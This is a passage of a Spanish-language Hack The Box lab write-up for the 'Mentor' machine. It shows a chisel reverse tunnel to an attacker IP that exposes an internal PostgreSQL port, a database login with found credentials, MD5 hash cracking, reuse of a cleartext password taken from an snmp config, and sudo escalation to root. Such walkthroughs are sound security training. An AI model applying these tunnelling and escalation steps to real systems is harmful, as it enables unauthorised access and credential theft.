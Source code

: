 2. Desde la máquina víctima hacemos convertimos el puerto 5432 de la máquina víctima a nuestra máquina atacante.
```bash
./chisel client 10.10.x.x:1234 R:5432:172.22.0.1:5432
```

3. Nos conectamos desde nuestra máquina atacante a la DB **Postgresql** con **psql**.
```bash
psql -h 127.0.0.1 -U 'postgres' -p 5432
```
![](/assets/images/htb-writeup-mentor/Pasted image 20231221120515.png)

Ganando acceso a la DB con las credenciales qué vimos anteriormente, y encontrando unas contraseñas HASHEADAS.
![](/assets/images/htb-writeup-mentor/Pasted image 20231221121006.png)

ya sabemos la contraseña de James, pero no de **SVC** así que opto por usar **hashes.com** y ver sí podemos crackearla.

![](/assets/images/htb-writeup-mentor/Pasted image 20231221121115.png)

descubriendo que el Hash era un **MD5**, y la viendo la contraseña en texto claro, por lo que se me ocurre ver sí mediante **SSH** puedo conectarme como **SVC** a la máquina víctima.

![](/assets/images/htb-writeup-mentor/Pasted image 20231221121427.png)
y ahora sí estamos en la máquina HOST.


# Escalada de Privilegios #2
___

No encontré nada que podría llevar a una escalada de Privilegios a Root, por lo que intenté entrar a James con las credenciales anteriores que usamos para la **API**, pero no coincidían, opté por seguir indagando como **SVC** y ya que estabamos en la máquina **HOST** le eché un vistazo a la configuración del **snmp**, encontrando lo siguiente en el demonio del servicio.
![](/assets/images/htb-writeup-mentor/Pasted image 20231221122133.png)

aparentemente es una contraseña en texto claro que se usará para crear un usuario, y se convertirá en **MD5**, intento con ésta contraseña a ver sí se está reutilizando para **James**.

![](/assets/images/htb-writeup-mentor/Pasted image 20231221122247.png)

Logrando así convertirme en **James**.

# Escalada de Privilegios #3 
___

listé como **James** los **SUDOERS**.
![](/assets/images/htb-writeup-mentor/Pasted image 20231221122407.png)

viendo qué puedo ejecutar como quién sea una shell de **sh**, por lo que se me ocurre ejecutar una como Root.

![](/assets/images/htb-writeup-mentor/Pasted image 20231221122528.png)
Logrando así convertirme en ROOT de la máquina **HOST**.
